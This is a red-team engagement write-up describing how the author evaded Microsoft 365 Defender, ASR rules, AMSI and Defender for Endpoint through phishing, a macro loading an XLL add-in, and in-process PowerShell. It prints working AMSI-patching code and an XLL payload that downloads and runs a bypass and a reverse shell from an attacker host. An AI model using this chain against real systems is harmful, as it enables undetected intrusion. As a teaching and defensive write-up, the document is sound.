

<meta name="google-site-verification" content="YYbnMuO01GBuAkGoNBOESGOVLMlUgBHSEAu9MUuSDDo" />
# 🥲 Bypassing Microsoft Endpoint Solutions for Fun

I was assigned a simulated Purple Teaming engagement at the start of the year 2022. This was my first Red teaming engagement. Our red team were asked to bypass all the security controls and gain a foothold on the machine. Their assumption was that once the foothold is gained one can easily get into domain admin :smile:. The timeframe of the engagement was also limited and the things that we perform in red team was also limited :cry:. Anyways Lets get started.

_**Disclaimer: No Client information is disclosed here. This blog is only for educational purposes.**_

### Basic information gathering

We basically started our phishing campaign. Since this was a simulated Red team assignment there was a user who opens our emails. We initially wanted to know what security products they have in their environment. We came to know they were using Microsoft Endpoint for Detection as their endpoint security product by surfing LinkedIn. They already mentioned us that the simulated user  will be using Windows operating system which will be completely integrated with their endpoint security solutions.

### Macros never die

Since we had these information, I initially want to know whether they have macro enabled in their environment. Let me tell you **"Macros never die"**. Organizations have their own business use cases for using Macros eg: Finance team Automate Formulae, Accounts Calculation Usage etc.. . So there is always 90% chances that macros will be enabled in any organization. But we had to test that.

So I initially created a sample macro payload which tries to perform a GET request to our C2 server via XMLHTTP API.

.png>)

We sent this macro enabled document via a phishing mail but our mail didn't land in the user's inbox. We were confused we wanted to check why was it blocked. This simple macro wont be flagged as malware by the AVs. And secondly when I encrypted the document, the document had 0 in the VirusTotal findings since it requires a password to decrypt the macros inside it. We tried to search if there can be any outlook rule which drops our macro enabled document or so. But pertaining to the fact that organizations will have some business use case for macro we searched for certain other things. During red teaming we mostly try to use emails outside the client's organization (_I am not taking breached accounts into consideration_). We thought they might block attachments or scan attachments outside the organization using some other tech. Since they use Microsoft EDR we tried to search if Microsoft has this kind of product.

We found that there is a new product called <mark style="color:blue;">**"Microsoft 365 Defender" 🙂**</mark>**.**

### Microsoft 365 Defender

Microsoft 365 Defender is a new product launched by Microsoft to safeguard Office 365 applications. It has certain policies and rules using which it will safeguard the Office 365 applications. It scans the links, attachments for malicious contents such as Macro enabled malicious documents, HTA files etc.&#x20;

.png>)

You can read about it [here](https://docs.microsoft.com/en-us/microsoft-365/security/office-365-security/overview?view=o365-worldwide). You will be seeing tons of policies which limits the threat landscape. This product comes with a portal called defender 365 portal where the SOC team or Blue team will be given the control to mark the data as false positives or further investigate on the threat alerted. This is really a great product and also allows custom policies to be written for limiting the threat landscape. This product comes with the Microsoft E5 license.

### How we bypassed it?

Policies can never be bypassed 🤐. But there will always be a workaround. At the time of our Red teaming engagement, my teammate shared a twitter post from [Mr.Dox ](https://twitter.com/mrd0x)where he found a payload delivery mechanism using OneDrive. You can find the  original twitter post [here](https://twitter.com/mrd0x/status/1475085452784844803).&#x20;

So basically, we create a OneDrive document and upload our attachment in the OneDrive and get its static downloadable link. This link is a drive by download link.&#x20;


We tried this method and sent a email. It was not flagged by the Microsoft 365 Defender and the mail reached the simulated user's inbox.


Microsoft 365 Defender allowed it as a Safe link even though the link points to a macro enabled document. But it was really powerful against HTA files if anyone tried to circumvent HTA files ping me I would love to hear new techniques. This workaround may be because the Microsoft 365 defender trusts Microsoft's product.&#x20;

### Macro Execution

The user clicked on our link and opened our macro attachment. We immediately got a GET request to our server with his user-agent and the software information. This wasn't detected by their security solutions as I already mentioned this wasn't marked malicious by any of the antivirus solutions.

So I confirmed macro execution and I planned to get a foothold on the machine without triggering any alerts using macros. Since they were using Microsoft 365 Defender I guessed that they would also have Microsoft ASR enabled on their environment.

> For testing our scenarios we created a local lab environment which was connected to the Microsoft security portal. Microsoft offers 30 days of free trail to test the efficacy of their security products. You can either use their own cloud instance as test environment or create a local VM and sync to their Azure AD via Azure AD Connect tool. I would suggest the second approach because we cannot turn off the cloud protection settings in their test instance so whatever gets flagged go to their database.&#x20;

Lets dive again to where we left off.

### What is Microsoft ASR?

ASR stands for "**Attack Surface Reduction**". This is one of the best feature that Microsoft built to their endpoint solutions. You could have known from the name that its goal is to reduce the attack surface. How does it work?

Basically ASR will have a set of policies for certain applications and internal APIs (Native) which will block the activities which match its policies. You can look at the documentation of ASR over [here](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide). Some example policies are:

* Block Office applications from creating child processes
* Block Office applications from creating executable content (Nothing but to limit the droppers 🤨)
* Block the stealing of windows credentials from LSASS

You can get the complete list of ASR rules [here](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide). Since I was using macro based payloads I only focused on policies that were related to Office applications.

### Bypassing ASR&#x20;

Microsoft has stated that they won't fix the bypasses for ASR. So the previous bypass would still work for bypassing the ASR. There are a plenty of blog post which would guide you to bypass ASR.

Sevagas is a cool guy who has researched a lot on ASR bypass, you can view his research post [here](https://blog.sevagas.com/IMG/pdf/bypass\_windows\_defender\_attack\_surface\_reduction.pdf). You can find all the ASR bypass VBA code in this [github link](https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3).&#x20;

Currently all the code mentioned here works well for ASR bypass but they all will get flagged as malware by the Microsoft Defender as "**Sadoca**" malware. When a user opens the office document and if it has a macro, the macro gets initially parsed by the VBA parser and will get converted into a platform independent code. At this stage Microsoft defender uses its Heuristics algorithm to identify whether the code is malicious or not. Even we tried some other VBA ASR Bypass code it successfully bypassed heuristics but wasn't able to bypass AMSI. When we tried to bypass AMSI via inline patching in VBA we again got blocked by ASR policy "**Block Office Applications by making Win32 API calls**". I will cover AMSI later in this post.

So we again started looking for several articles and found a very cool one published by Optiv. You can find the entire blog post [here](https://www.optiv.com/insights/source-zero/blog/breaking-wdapt-rules-com).

We made use of this same technique to the bypass ASR protection. But before getting into its working lets look at some of the things used in this technique.

### ERA of XLL

I have recently read in a blog post that XLL is highly used by threat actors in the new Threat Landscape. But what is XLL?

> XLL stands for Excel Linked Library. This is nothing but a DLL which is used like a Add On for Excel documents.&#x20;

XLL allows you to perform certain custom functions over the excel document. An XLL file can be opened on its own but it is like DLL which needs a process to live. XLL uses the Excel process to perform the actions. So if we create a DLL and name it to XLL will it be considered as XLL?

Absolutely yes. But there are some discrepancies that needs to be taken care. As we all know DLL has a entry point called DllMain function from which the code flow starts. In the DllMain function we specify when the function needs to be called either when the process loads the DLL or unloads the DLL or when a thread loads a DLL or when a thread unloads a DLL. Same way XLL have different entry points. Some of them are

* **xlAutoOpen**:  This function gets triggered when a Excel process loads a XLL into its memory.
* **xlAutoClose**: This function gets triggered when a Excel process unloads a XLL process from the memory.
* **xlAutoAdd**: This function gets triggered whenever a user activates the XLL in the Excel Session

You can find the list of functions that are triggered when doing certain actions with XLL over [here](https://docs.microsoft.com/en-us/office/client-developer/excel/add-in-manager-and-xll-interface-functions). But how do we create a XLL?

Creating XLL is a very easy job if you have hands on experience in C++ you just need to use of these above functions in the code and write its functionality and export it. But I was comfortable with C# so I developed XLL in C#.&#x20;

In C# we just need to create a Class Library using any of the above function name and export it. Exporting function in C# can be done by using "**DllExport"** package from [nuget](https://www.nuget.org/packages/DllExport/). Here is a basic example of C# code which creates a XLL which runs PowerShell command using PowerShell Library. I will cover about the PowerShell library later in this post.

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management.Automation;

namespace Redteam
{
    public class Class1
    {

        [DllExport]
        static void xlAutoOpen()
        {
            PowerShell ps = PowerShell.Create();
            ps.AddScript("echo \"lol\" > C:\\users\\hackzzdogs\\Desktop\\lol.txt");
            ps.Invoke();
        }
    }
}


```

> When building the XLL create the XLL depending upon the process's architecture. During our engagement our engagement we found out that Excel 2019 in the test environment used 64 bit.

XLL can be opened on its own it will show a security warning for the current user before enabling it as a addon in the current Excel's session. Now lets look another important component used in this technique called  COM object.

### What is COM Object?

Component Object Model (COM) is a protocol used by processes with different applications and languages so they communicate with one another.

COM is a component of the native Windows application programming interface (API) that enables interaction between software objects, or executable code that implements one or more interfaces. Through COM, a client object can call methods of server objects, which are typically Dynamic Link Libraries (DLL) or executables (EXE).

We have used the **"Excel.Application"** COM object in our engagement as specified in the blog post. **"Excel.Application"** represents the Entire Excel Application but in a automated form and allows programmatical access.&#x20;

When we use the **CreateObject** function in VBA with the **"Excel.Application"** COM Object, it spawns a Excel process with the parent as "svchost.exe". There is no ASR rule for blocking child process creation for "**svchost**" as of now.

I have covered all the terminologies used in this technique now let's get into the complete flow.

### Final ASR Bypass Workflow

* First I enabled this registry **"HKEY\_CURRENT\_USER\Software\Microsoft\Office\Excel\Security\AccessVBOM"**  to 1 which will enable the "Trust VBA object model". Once I enable this, Office applications can programmatically manipulate the objects or code in the VBA environment. Since this is in current user's registry we don't get much privileges.
* Next we create a VBA code which uses "**CreateObject('Excel.Application')**" function for creating a Excel Process under svchost.
* Then we use the "**RegisterXLL"** function to load our XLL into the Excel's memory and get a foothold on the machine.

> RegisterXLL function is used to register a XLL into the current Excel session. This loads the XLL Dynamically and the user won't receive a popup when the XLL addon is added to the current Excel's session.&#x20;



### EDR go brr :stuck\_out\_tongue:

After we use the "RegisterXLL" function to load the XLL our XLL will be loaded into the Excel's memory. Once its loaded we can do anything and it won't violate the Microsoft's ASR. But there is another thing to bypass which is Microsoft Defender for Endpoint (The EDR itself). Now comes the fun part of how we created the XLL.

Lets talk a bit about Microsoft EDR. Most of the EDRs out in the market like Crowdstrike, Fireeye, SentinelOne mostly depend upon userland API hooking to monitor the processes.&#x20;

#### But how they do it?

EDRs have two components one is the EDR driver which resides at the kernel space and the other is the EDR service which is nothing but a process which resides at the user space as a security solution. When a new process is created the EDR driver waits for the kernel call-backs for the new process creation and then instruct the EDR service to inject a DLL to perform API hooking.

> Hooking is a process by which the code flow is changed to perform certain actions. Mostly these are simple jump instructions which will redirect the code flow to the injected DLL.

So when there is a API call to any of the suspicious WinAPIs the call will get redirected to the injected DLL and it is subjected for further investigation.

.png>)

Microsoft EDR doesn't use userland API hooking. It works in a different way. It uses some telemetry behavioural sensors which resides in the kernel side for investigating the processes. Whenever an alert is triggered the EDR behavioural sensor sends alerts to the EDR response controller which sends all the alerts to the Microsoft ATP portal. But there is no clear architecture of how this EDR behavioural sensor works. You can look through the documentation [here](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-endpoint?view=o365-worldwide). If you find any clear architecture of this behavioural sensor do ping me.

Microsoft EDR detects several things like OS Credential Dumping, Discovery and Information gathering, Privilege escalation, Process Injection etc. You can find the whole list of areas covered by their EDR in their defender portal.

But one important thing to note is it uses the same AMSI protection as used my normal Microsoft defender.&#x20;

#### What is AMSI?

AMSI stands for Anti Malware Scanning interface. It is a special library written by Microsoft for scanning the actions performed by several applications. It performs this scanning on several layers.&#x20;

.png>)

Mostly you will be seeing the Amsi.dll injected into your process memory. Whenever an action is performed, two functions are triggered one is the "AmsiScanBuffer" and other one is the "AmsiScanString". Both functions scans the actions performed for malicious operation. If it detects anything the action is blocked and it is reported to the defender service via RPC.

#### Why am I talking about AMSI here?

AMSI DLL will get injected into the Excel process to scan for malicious content. So we need to patch it in order to run some malicious operations.

We also want to get a foothold without triggering a new process creation or injecting into a different process as it would require multiple security layer patches. Also the EDR behavioural sensor was found to be very powerful in identifying process injection based techniques.

So I used one of the Microsoft own library to get the foothold.

#### Old School PowerShell DLL

Microsoft's PowerShell SDK contains a DLL called **"System.Automation.Management.dll"**. This DLL allows us to run PowerShell commands and functions without creating a PowerShell process. When we run any command using this DLL it will be invoked just via a function. You can look at the official documentation [here](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation?view=powershellsdk-7.0.0).

We can use this DLL in our C# XLL code by installing this [nuget](https://www.nuget.org/packages/System.Management.Automation/) package. The commands run via this library was not detected by EDR behavioural sensor. Only caveat is the commands we run will be inside of the Excel's memory since we are loading the XLL into Excel's memory.&#x20;

This might not be detected because of the trust issues. This is an official Microsoft signed DLL it may be the reason why it was not detected also this doesn't use the traditional PowerShell process. At the end of the day everything is a human created software:wink:.

So we planned to bypass the AMSI using this DLL via PowerShell scripts.

#### &#x20;Final XLL Payload

We created a new PowerShell Object and invoked the commands using this object. The first command is a basic AMSI bypass specified over [here](https://payatu.com/blog/arun.nair/amsi-bypass). We first get the address of the "**AmsiScanBuffer**" using the ""**GetProcAddress**" function on the "**Amsi.dl**l" handle. We then change the memory protection of this region to RW(Read Write). Then we overwrite the first line of this function using "**ret**" statement. Finally we change the memory protection to previous state. All of these Win32 API calls were not alerted by the EDR and ASR.

Then we run our basic PowerShell reverse shell payload to get the control over the server. Below is the code for AMSI bypass.

```
$code = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}
"@

Add-Type $code
$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)
```

Below is the final XLL payload.

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management.Automation.Runspaces;

namespace Redteam
{
    public class Redteam
    {

        [DllExport]
        static void xlAutoOpen()
        {
            //AMSI bypass and reverse shell
            string command = "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://attackerurl/amsibypass.txt'); " +
                "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://attackerurl/reverseshell.txt";
            Runspace runSpace = RunspaceFactory.CreateRunspace();
            runSpace.Open();

            Pipeline pipeline = runSpace.CreatePipeline();
            pipeline.Commands.AddScript(command);
            pipeline.Invoke(); 

        }
    }
}
```


We delivered the XLL and the macro enabled document to the victim and we got the implant successfully connect to our server without triggering any alerts in the Defender and ATP portal.

### Caveats we faced

* &#x20;Even though we weren't detected by EDR throughout the engagement the only problem with this payload is it still resides in the Excel's memory. When we tried to trigger a child process creation using this implant in our test environment we got blocked by the ASR. So the ASR bypass only works inside the XLL itself.
* If the environment that you are testing uses a x86 Excel process in a x64 architecture machine it would be difficult to migrate into x64 process using the XLL.

### Things that we could have done better

* Microsoft defender is found to be prone to PPID spoofing attack. Instead of using simple implant we could of used this technique to initially come out of the Excel's memory.
* We also could have obfuscated the macro in a better way like the [MacroPack Pro](https://github.com/sevagas/macro\_pack) tool but due to the little timeframe we weren't able to do this.

### Things that Microsoft Solutions could have done better

* Microsoft could patch all the ASR bypass. I really don't understand the reason why they are not patching it since the beginning.
* They should not blindly trust their own products and features. As we have seen that the OneDrive links were blindly trusted by Microsoft 365 defender even though it points to the  macro enabled document. Also we also looked that the PowerShell SDK was blindly trusted by the EDR and even when we ran several discovery commands we were not detected. But most of the EDR solutions like VMware Carbon Black, CrowdStrike won't allow several applications in loading the PowerShell DLL into the memory.
* Their telemetry signals did not alert the registry write events. As writing the registries allowed us to automate the VBOM parser.

### Credits

A huge shout-out to all of my team members [Jyoti Acharya](https://uk.linkedin.com/in/jyoti-ranjan-acharya-2810a515?original\_referer=https%3A%2F%2Fwww.google.com%2F), [Nagendran GS](https://www.linkedin.com/in/nagendrangs/), [Muhammad Uwais](https://www.linkedin.com/in/muhammad-uwais/), [Vishal Biswas](https://www.linkedin.com/in/vishal-biswas/), [Sachin Yadav](https://www.linkedin.com/in/sachin-yadav-543265178/) for supporting me throughout the engagement.

### References


Optiv's blog



Dent is a tool which generates payload for the above technique



XLL creation


